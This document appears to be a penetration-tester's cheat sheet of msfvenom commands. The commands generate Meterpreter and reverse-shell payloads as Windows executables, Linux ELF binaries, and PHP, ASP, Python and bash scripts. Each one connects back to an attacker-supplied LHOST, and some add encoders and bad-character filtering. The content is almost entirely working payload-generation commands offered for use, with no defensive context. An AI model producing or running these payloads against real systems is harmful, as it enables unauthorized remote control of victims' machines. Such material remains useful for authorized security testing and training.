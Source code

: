 ### MSF Payloads
{% highlight bash %}
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP Address> X > system.exe
msfvenom -p php/meterpreter/reverse_tcp LHOST=<IP Address> LPORT=443 R > exploit.php
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP Address> LPORT=443 -e -a x86 --platform win -f asp -o file.asp
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP Address> LPORT=443 -e x86/shikata_ga_nai -b "\x00" -a x86 --platform win -f c
{% endhighlight %}

### MSF Linux Reverse Meterpreter Binary
{% highlight bash %}
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<IP Address> LPORT=443 -e -f elf -a x86 --platform linux -o shell
{% endhighlight %}

### MSF Reverse Shell (C Shellcode)
{% highlight bash %}
msfvenom -p windows/shell_reverse_tcp LHOST=127.0.0.1 LPORT=443 -b "\x00\x0a\x0d" -a x86 --platform win -f c
{% endhighlight %}

### MSF Reverse Shell Python Script
{% highlight bash %}
msfvenom -p cmd/unix/reverse_python LHOST=127.0.0.1 LPORT=443 -o shell.py
{% endhighlight %}

### MSF Reverse ASP Shell
{% highlight bash %}
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f asp -a x86 --platform win -o shell.asp
{% endhighlight %}

### MSF Reverse Bash Shell
{% highlight bash %}
msfvenom -p cmd/unix/reverse_bash LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -o shell.sh
{% endhighlight %}

### MSF Reverse PHP Shell
{% highlight bash %}
msfvenom -p php/meterpreter_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -o shell.php
add <?php at the beginning
perl -i~ -0777pe's/^/<?php \n/' shell.php 
{% endhighlight %}

### MSF Reverse Win Bin
{% highlight bash %}
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f exe -a x86 --platform win -o shell.exe
{% endhighlight %}
